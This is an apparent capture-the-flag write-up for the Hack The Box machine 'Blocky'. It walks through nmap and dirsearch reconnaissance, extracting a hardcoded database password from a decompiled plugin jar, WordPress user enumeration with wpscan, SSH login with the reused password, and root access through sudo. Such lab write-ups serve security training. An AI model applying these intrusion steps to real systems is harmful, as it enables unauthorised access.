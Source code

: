 ## -------------->> Blocky <<--------------

// We start with nmap scan

    $ nmap -sV -A -Pn -T4 10.10.10.37 -p-
-----------

    Nmap scan report for 10.10.10.37
    Host is up (0.14s latency).
    Not shown: 65530 filtered ports
    PORT      STATE  SERVICE   VERSION
    21/tcp    open   ftp       ProFTPD 1.3.5a
    22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
    |   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
    |_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
    80/tcp    open   http      Apache httpd 2.4.18 ((Ubuntu))
    |_http-generator: WordPress 4.8
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: BlockyCraft &#8211; Under Construction!
    8192/tcp  closed sophos
    25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 184.05 seconds

// Navigating to http://10.10.10.37/ , display us a game website in development

// Rolling down the site there is a 'Login' button

![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Blocky/1.png)

// Clicking on the login redirect us to http://10.10.10.37/wp-login.php

![Image 2](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Blocky/2.png)

// Lets search for some interesting files or directories with [dirsearch](https://github.com/maurosoria/dirsearch) tool (By maurosoria).

    $ python3 dirsearch.py -u http://10.10.10.37/ -t 100
-----

      _|. _ _  _  _  _ _|_    v0.4.1
     (_||| _) (/_(_|| (_| )

    Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 100 | Wordlist size: 10903

    Target: http://10.10.10.37/

    ...
    
    [09:32:19] 200 -   19KB - /license.txt
    [09:32:27] 200 -   10KB - /phpmyadmin/
    [09:32:27] 200 -  745B  - /plugins/
    [09:32:29] 200 -    7KB - /readme.html
    [09:32:38] 200 -  380B  - /wiki/
    [09:32:38] 200 -    1KB - /wp-admin/install.php
    [09:32:38] 200 -    0B  - /wp-config.php
    [09:32:38] 200 -    0B  - /wp-content/
    [09:32:38] 200 -    1B  - /wp-admin/admin-ajax.php
    [09:32:38] 200 -   69B  - /wp-content/plugins/akismet/akismet.php
    [09:32:39] 200 -  965B  - /wp-content/uploads/
    [09:32:39] 200 -    0B  - /wp-cron.php
    [09:32:39] 200 -    2KB - /wp-login.php
    [09:32:39] 200 -   40KB - /wp-includes/

    Task Completed

// Found directories: /wiki/ , /plugins/ , /phpmyadmin/ , /wp-includes/ , 

// /Wiki-Underconstructin , /phpmyadmin/-phpmyadmin login , /wp-includes/-Wordpress plugins

// But, /plugins/ have 2 interesting files in him

![Image 3](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Blocky/3.png)

// Its two .jar(ziped java) files , Download them

    $ ls
    BlockyCore.jar  griefprevention-1.11.2-3.1.1.298.jar

// Lets unpack BlockyCore.jar

    $ jar -xf BlockyCore.jar 
    Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true

// BlockyCore.jar generated 2 directories: META-ING & com

    $ tree
    .
    ├── BlockyCore.jar
    ├── META-INF
    │   └── MANIFEST.MF
    └── com
        └── myfirstplugin
            └── BlockyCore.class

// We can see that inside com there is another directory with file in him - 'BlockyCore.class'

// tring to see the file contant failed becouse its compiled, let decompile that file with online [java decompiler tool](http://www.javadecompilers.com/result)

![Image 4](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Blocky/4.png)

    package com.myfirstplugin;

    public class BlockyCore
    {
        public String sqlHost;
        public String sqlUser;
        public String sqlPass;

        public BlockyCore() {
            this.sqlHost = "localhost";
            this.sqlUser = "root";
            this.sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
        }
        public void onServerStart() {
        }
        public void onServerStop() {
        }
        public void onPlayerJoin() {
            this.sendMessage("TODO get username", "Welcome to the BlockyCraft!!!!!!!");
        }
        public void sendMessage(final String username, final String message) {
        }
    }

// We have credentials ! 

        this.sqlUser = "root";
        this.sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
        

// Since we know now we dilling with Wordpress CMS we can use [wpscan](https://wpscan.com/wordpress-security-scanner) to scan for vulnerabillities

    $ wpscan --url http://10.10.10.37/ --api-token YOUR_API_KEY --plugins-detection mixed -e
-----

    _______________________________________________________________
             __          _______   _____
             \ \        / /  __ \ / ____|
              \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
               \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
                \  /\  /  | |     ____) | (__| (_| | | | |
                 \/  \/   |_|    |_____/ \___|\__,_|_| |_|

             WordPress Security Scanner by the WPScan Team
                             Version 3.8.18
           Sponsored by Automattic - https://automattic.com/
           @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
    _______________________________________________________________

    [+] URL: http://10.10.10.37/ [10.10.10.37]
    [+] Started: Thu Aug 12 06:04:31 2021
    
    ...

    [i] User(s) Identified:

    [+] notch
     | Found By: Author Posts - Author Pattern (Passive Detection)
     | Confirmed By:
     |  Wp Json Api (Aggressive Detection)
     |   - http://10.10.10.37/index.php/wp-json/wp/v2/users/?per_page=100&page=1
     |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
     |  Login Error Messages (Aggressive Detection)

// We have username 'notch' for Wordpress 

// Also can find in the main site

![Image 5](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Blocky/5.png)

// Since we have user, password and SSH service running, lets try to connect

    $ ssh notch@10.10.10.37

    notch@10.10.10.37's password: 
    Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

    notch@Blocky:~$ id
    uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)

// We connected !!! And have user flag

    notch@Blocky:~$ cat user.txt 
    59fee097........................

### -----Privilleges Escalation-----

// running 'sudo -l' command we can see that this user can run sudo so simple 'sudo -i' gets us root


    notch@Blocky:~$ sudo -l
    [sudo] password for notch: 
    Matching Defaults entries for notch on Blocky:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User notch may run the following commands on Blocky:
        (ALL : ALL) ALL

    notch@Blocky:~$ sudo -i
    root@Blocky:~# 

// And the flag !

    root@Blocky:~# cat root.txt 
    0a9694a5b4......................
